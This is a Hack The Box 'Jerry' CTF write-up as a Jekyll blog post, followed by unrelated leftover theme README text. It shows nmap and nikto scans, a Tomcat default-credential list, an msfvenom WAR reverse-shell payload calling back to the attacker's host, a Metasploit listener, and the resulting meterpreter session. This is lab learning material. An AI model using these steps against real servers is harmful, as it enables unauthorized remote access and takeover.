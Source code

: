 ```yaml
---
published: false
---
```


![htb_jerry.png]({{site.baseurl}}/_posts/htb_jerry.png)

## Htb - Writeup

* Enumeration

Nmap
```
# nmap -sC -sV -oA htb 10.10.10.95

Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
Nmap scan report for 10.10.10.95
Host is up (0.19s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
* Discovered Apache Tomcat/7.0.88 on port 8080

Nikto
```py
# nikto -h 10.10.10.95:8080

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
+ OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.

```

* Discovered Apache Tomcat and JSP vulnerability 

## Navigate to 10.10.10.95:8080
![8080.jpg]({{site.baseurl}}/_posts/8080.jpg)

access: http://10.10.10.95:8080/manager/html "Manager App" 

Username: tomcat
Password: s3cret

```
list of Apache Default Credentials 
Username Password
admin 	password
admin 	
admin 	Password1
admin 	password1
admin 	admin
admin 	tomcat
both 	tomcat
manager manager
role1 	role1
role1 	tomcat
role 	changethis
root 	Password1
root 	changethis
root 	password
root 	password1
root 	r00t
root 	root
root 	toor
tomcat 	tomcat
tomcat 	s3cret
tomcat 	password1
tomcat 	password
tomcat 	
tomcat 	admin
tomcat 	changethis
```
source: "https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown"


## Attack Vector
utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg]({{site.baseurl}}/_posts/war.jpg)

Crafting WAR file:
tools: msfvenom
```
msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of war file: 52304 bytes
Saved as: war.war
```
extract file:
```
jar -xvf war.war 
created: META-INF/
inflated: META-INF/MANIFEST.MF
created: WEB-INF/
inflated: WEB-INF/web.xml
inflated: yewdmyrhyi.jsp
```
* Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.

# Setup Listener
tool: msf
```
msfdb run
```
* quick way to start postgres and metasploit framework

after initilzation:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST LOCALIP
set LPORT 9000
exploit
```

Access: http://10.10.10.95/war/yewdmyrhyi.jsp
* wait for reverse tcp connection

```
[*] Started reverse TCP handler on 10.10.13.75:9002
[*] Sending stage (179779 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > dir
Listing: C:\apache-tomcat-7.0.88
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work
```

 
flag location: C:\Users\Administrator\Desktop\flags


## Screenshots

* Desktop
![Desktop Preview](http://iissnan.com/nexus/next/desktop-preview.png)

* Sidebar

![Desktop Sidebar Preview](http://iissnan.com/nexus/next/desktop-sidebar-preview.png)

* Sidebar (Post details page)

![Desktop Sidebar Preview](http://iissnan.com/nexus/next/desktop-sidebar-toc.png)

* Mobile

![Mobile Preview](http://iissnan.com/nexus/next/mobile.png)


## Installation

Check whether you have `Ruby 2.1.0` or higher installed:

```sh
ruby --version
```

Install `Bundler`:

```sh
gem install bundler
